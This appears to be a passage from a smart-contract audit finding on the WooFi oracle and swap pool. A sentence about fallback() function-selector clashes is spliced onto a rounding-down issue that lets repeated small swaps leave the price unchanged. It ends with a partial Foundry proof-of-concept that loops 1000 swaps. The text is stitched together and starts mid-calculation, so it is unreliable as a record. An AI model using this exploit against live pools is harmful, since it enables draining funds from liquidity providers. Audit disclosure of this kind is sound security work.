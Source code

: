 ````WooracleV2_2.fallback()```` is used to post zipped token price and state data to the contract for sake of gas saving. However, the first 4 bytes of zipped data are not reserved to distinguish the ````ZIP```` call and other normal call's function selector.
(baseAmount * state.price * state.coeff) / decs.priceDec / decs.baseDec;
= 1e10 * 0.01 * 1e8 * 0.000000001 * 1e18 / 1e8 / 1e18
= 0 due to round down

let's calculate the `quoteAmount` will be received:
quoteAmount =
                (((baseAmount * state.price * decs.quoteDec) / decs.priceDec) *
                    (uint256(1e18) - gamma - state.spread)) /
                1e18 /
                decs.baseDec;
(1e10 * 0.01 * 1e8 * 1e18 / 1e8) * (1e18 - 0 - 0.01 * 1e18) / 1e18 / 1e18
= 99900000 which is not "0". 

let's calculate the new price:
newPrice = ((uint256(1e18) - gamma) * state.price) / 1e18;
= (1e18 - 0) * 0.01 * 1e8 / 1e18 = 0.01 * 1e8
**which is the same price, no price changes!** 

That would also means if the "gamma" is "0", then this is the best possible swap outcome. If a user does this in a for loop multiple times in a cheap network, user can trade significant amount of tokens without changing the price. 

**Coded PoC (values are the same as in the above textual scenario):**
```solidity
function test_SwapsHappenPriceIsNotUpdatedDueToRoundDown() public {
        // USDC --> DAI address, mind the naming..
        uint usdcAmount = 1_000_000 * 1e18;
        uint wooAmount = 100_000 * 1e18;
        uint wethAmount = 1_000 * 1e18;
        deal(USDC, ADMIN, usdcAmount);
        deal(WOO, ADMIN, wooAmount);
        deal(WETH, ADMIN, wethAmount);

        vm.startPrank(ADMIN);
        IERC20(USDC).approve(address(pool), type(uint256).max);
        IERC20(WOO).approve(address(pool), type(uint256).max);
        IERC20(WETH).approve(address(pool), type(uint256).max);
        pool.depositAll(USDC);
        pool.depositAll(WOO);
        pool.depositAll(WETH);
        vm.stopPrank();

        uint wooAmountForTapir = 1e10 * 1000;
        vm.startPrank(TAPIR);
        deal(WOO, TAPIR, wooAmountForTapir);
        IERC20(USDC).approve(address(router), type(uint256).max);
        IERC20(WOO).approve(address(router), type(uint256).max);
        IERC20(WETH).approve(address(router), type(uint256).max);
        vm.stopPrank();

        // WHERE THE MAGIC HAPPENS
        (uint128 price, ) = oracle.woPrice(WOO);
        console.log("price", price);
        
        uint cumulative;
        for (uint i = 0; i < 1000; ++i) {
            vm.prank(TAPIR);
            cumulative += router.swap(WOO, USDC, wooAmountForTapir / 1000, 0, payable(TAPIR), TAPIR);
        }

        (uint128 newPrice, ) = oracle.woPrice(WOO);
        console.log("price", price);
````